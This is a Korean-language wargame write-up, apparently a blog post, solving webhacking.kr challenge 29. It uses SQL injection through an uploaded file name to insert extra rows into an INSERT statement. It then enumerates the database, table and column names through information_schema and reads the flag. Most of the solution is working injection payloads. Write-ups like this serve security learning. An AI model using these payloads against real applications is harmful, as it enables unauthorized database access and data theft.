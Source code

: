 ```yaml
---
title: "[webhacking.kr] 29번 문제 풀이[SQL injection]"
categories:
  - webhacking
tags:
  - webhacking.kr
  - wargame
  - sql injection
toc: true
toc_sticky: true
toc_label: "29번 문제 풀이"
toc_icon: "bookmark"
author_profile: true
header:
  teaser: /assets/images/webhacking.jpg
---
```


💡 Webhacking.kr challenge(old) 29번 문제에 대한 풀이입니다.
{: .notice--warning}

# 문제
  ![image](https://user-images.githubusercontent.com/33647663/152376271-c40187e8-df65-4923-8541-15f0fa82f908.png)

  파일을 업로드 하여 다른 테이블에 있는 flag를 읽어오는 문제입니다.

  파일을 업로드를 하면 다음의 정보들이 저장되고 화면에 출력됩니다.

  ![image](https://user-images.githubusercontent.com/33647663/152376489-3a2400f1-8470-4b65-8442-29e050e4f0d0.png)

# 문제 풀이
  화면에 표시되는 정보들을 봤을 때 DB에는 파일이 업로드된 시간, 나의 IP, 업로드된 파일명이 저장이 됩니다. 실제 해당 정보들이 DB에 들어갈 쿼리문을 보면 다음과 같이 구성되어 있을 것입니다.

  ```sql
  insert into chall29(time,ip,file) values (123,'내ip','파일명')
  ``` 

  위의 정보들 중에서 파일명 부분은 조작이 가능하기 때문에 이를 이용해서 인젝션 공격을 시도할 수 있습니다. 

  이때 insert into chall29 문에서 **(time,ip,file)** 컬럼들의 순서를 모두 고려해서 인젝션을 수행해야 합니다. 가능한 경우의 수는 총 6가지로 다음과 같습니다.

  1. time,ip,file
  2. time,file,ip
  3. ip,time,file
  4. ip,file,time
  5. file,ip,time
  6. file,time,ip

  만약 1번의 순서로 insert into 문이 작성되어 있다면 다음과 같이 injection을 시도할 수 있습니다.

  파일 명 : ```test1'),(123,'내ip','test2```
  
  위의 파일명이 인젝션 되었을때 sql문은 다음과 같습니다.

  ```sql
  insert into chall29(time,ip,file) values (123,'내ip','test1'),(123,'내ip','test2')
  ```

  위의 케이스를 시도해 봤을때, 공격이 성공한 것은 6번 케이스 였으며 다음과 같은 파일명으로 업로드 하였을때 한번에 **test1**파일과, **test2**파일이 업로드 되었습니다.

  ```md
  test1',123,'58.122.121.25'),('test2
  ```

  ![image](https://user-images.githubusercontent.com/33647663/152526741-3cca21a5-54db-4d55-b232-a6ef542bb546.png)

  이제 test2 대신에 원하는 정보를 뽑아 올 수 있는 쿼리를 작성하여 데이터를 읽어올 수 있습니다.

  다른 테이블에 있는 데이터를 읽어와야 하므로, 다음의 과정을 통해서 데이터를 찾아야 합니다.

  - DB 명 알아내기 -> database() 이용
  - table명 알아내기 -> information_schema.tables이용
  - column명 알아내기 -> information_schema.columns이용
  - 데이터 알아내기 -> select [column_name] from [table_name] 이용
  
  위의 순서대로 데이터를 뽑아냅니다. 데이터를 뽑아내기 위해 사용한 파일 명들은 다음과 같으며 업로드시 다음과 같이 차례대로 데이터를 뽑을 수 있습니다.

  - DB 이름
  >  파일명 : ```1',1,'1'),(database(),1,'58.122.121.25')#```
  > ![image](https://user-images.githubusercontent.com/33647663/152528480-491ff65a-9a33-4775-94f2-7275a3a9cd58.png)

  - table 이름
  > **주의**<br>
  해당 DB에 테이블이 여러개 있으므로 limit 을 이용해서 하나씩 테이블 명을 뽑아봐야 합니다.<br><br>
  > 파일명 : ```1',1,'1'),((select table_name from information_schema.tables where table_schema='chall29' limit 0,1),1,'58.122.121.25')#```<br>
  > ![image](https://user-images.githubusercontent.com/33647663/152528957-d867196c-c42e-48c2-8c9e-d67dba838ee3.png)<br><br>
  > 파일명 : ```1',1,'1'),((select table_name from information_schema.tables where table_schema='chall29' limit 1,1),1,'58.122.121.25')#```<br>
  > ![image](https://user-images.githubusercontent.com/33647663/152530022-29f7be81-b81f-4170-8636-77e7321a7552.png)
  

  - column 이름
  > **주의**<br>
  컬럼 명도 하나의 테이블에 여러개의 컬럼이 있을 가능성이 있으므로, limit 을 이용해서 하나씩 뽑아와야 합니다.<br><br>
  > 파일명 : ```1',1,'1'),((select column_name from information_schema.columns where table_name='flag_congratz' limit 0,1),1,'58.122.121.25')#```<br>
  > ![image](https://user-images.githubusercontent.com/33647663/152531208-64665411-dc64-46c2-a41f-628312522299.png)


  - 데이터
  > 파일명 : ```1',1,'1'),((select flag from flag_congratz limit 0,1),1,'58.122.121.25')#```
  > ![image](https://user-images.githubusercontent.com/33647663/152531406-15f94dc8-3ab0-46a3-8e53-aa417a3b8a24.png)

  
# 결과
  위의 방법대로 순서대로 풀었다면 다음과 같이 플래그를 구할 수 있습니다.
  
  ![image](https://user-images.githubusercontent.com/33647663/152531576-9cddbeec-91e7-4296-86ab-0db0087de64e.png)



